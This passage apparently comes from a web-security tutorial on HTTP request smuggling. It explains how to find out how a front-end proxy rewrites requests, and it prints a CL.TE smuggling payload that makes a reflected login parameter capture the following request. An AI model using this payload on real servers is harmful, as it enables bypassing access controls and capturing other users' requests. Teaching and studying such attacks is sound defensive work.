 3
x=y
0

---

##### response:

HTTP/1.1 `302  Found
`Location: /admin
Set-Cookie: session=6IHZjFoYxFKCA4mgDwlampand0zgaVr8; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 0

---

#### Revealing front-end request rewriting

 If you can find which new values are appended to the request you could be able to bypass protections and access hidden information/endpoints.

For discovering how is the proxy rewriting the request you need to find a POST parameter that the back-end will reflect it's value on the response. Then, use this parameter the last one and use an exploit

There is often a simple way to reveal exactly how the front-end server is rewriting requests. To do this, you need to perform the following steps:

1.   Find a POST request that reflects the value of a request parameter into the 
    application's response.
2.   Shuffle the parameters so that the reflected parameter appears last in the message 
     body.
3.   Smuggle this request to the back-end server, followed directly by a normal request 
     whose rewritten form you want to reveal.

##### For example:

Suppose an application has a login function that reflects the value of the `email` parameter:

>`POST /login HTTP/1.1 
>`Host: vulnerable-website.com 
>`Content-Type: application/x-www-form-urlencoded 
>`Content-Length: 28 
>`email=wiener@normal-user.net`

This results in a response containing the following:

>`<input id="email" value="wiener@normal-user.net" type="text">`

Here you can use the following request smuggling attack to reveal the rewriting that is performed by the front-end server:
>
`POST / HTTP/1.1 
`Host: vulnerable-website.com 
`Content-Length: 130 
`Transfer-Encoding: chunked 
>
`0
>
`POST /login HTTP/1.1 
`Host: vulnerable-website.com 
`Content-Type: application/x-www-form-urlencoded 
`Content-Length: 100 
`email=POST /login HTTP/1.1 
`Host: vulnerable-website.com ...`
